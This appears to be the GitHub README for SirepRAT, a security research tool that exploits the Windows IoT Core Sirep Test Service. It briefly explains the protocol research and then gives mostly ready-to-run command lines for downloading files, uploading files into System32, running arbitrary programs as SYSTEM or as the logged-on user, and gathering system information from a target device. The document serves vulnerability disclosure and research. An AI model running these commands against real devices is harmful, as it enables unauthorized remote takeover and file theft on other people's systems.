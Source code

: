 # SirepRAT - RCE as SYSTEM on Windows IoT Core
**SirepRAT** Features full RAT capabilities without the need of writing a real RAT malware on target.

## Context

The method is exploiting the Sirep Test Service that’s built in and running on the official images offered at Microsoft’s site. This service is the client part of the HLK setup one may build in order to perform driver/hardware tests on the IoT device. It serves the Sirep/WPCon/TShell protocol.

We broke down the Sirep/WPCon protocol and demonstrated how this protocol exposes a remote command interface for attackers, that include RAT abilities such as get/put arbitrary files on arbitrary locations and obtain system information.

Based on the findings we have extracted from this research about the service and protocol, we built a simple python tool that allows exploiting them using the different supported commands. We called it SirepRAT.

It features an easy and intuitive user interface for sending commands to a Windows IoT Core target. It works on any cable-connected device running Windows IoT Core with an official Microsoft image.


**Slides and research White Paper are** [**in the docs folder**](https://github.com/SafeBreach-Labs/SirepRAT/tree/master/docs)


## Usage

#### Download File
```bash
python SirepRAT.py 192.168.3.17 GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" -v
```

#### Upload File
```bash
python SirepRAT.py 192.168.3.17 PutFileOnDevice --remote_path "C:\Windows\System32\uploaded.txt" --data "Hello IoT world!"
```

#### Run Arbitrary Program
```bash
python SirepRAT.py 192.168.3.17 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\hostname.exe"
```  
With arguments, impersonated as the currently logged on user:
```bash
python SirepRAT.py 192.168.3.17 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"
```  
(Try to run it without the _as_logged_on_user_ flag to demonstrate the SYSTEM execution capability)

#### Get System Information
```bash
python SirepRAT.py 192.168.3.17 GetSystemInformationFromDevice
```

#### Get File Information
```bash
python SirepRAT.py 192.168.3.17 GetFileInformationFromDevice --remote_path "C:\Windows\System32\ntoskrnl.exe"
```

#### See help for full details:
```bash
python SirepRAT.py --help
```

## Authors

**Dor Azouri** (@bemikre)

## License

[BSD 3](https://github.com/SafeBreach-Labs/AltFS/blob/master/LICENSE) - clause "New" or "Revised" License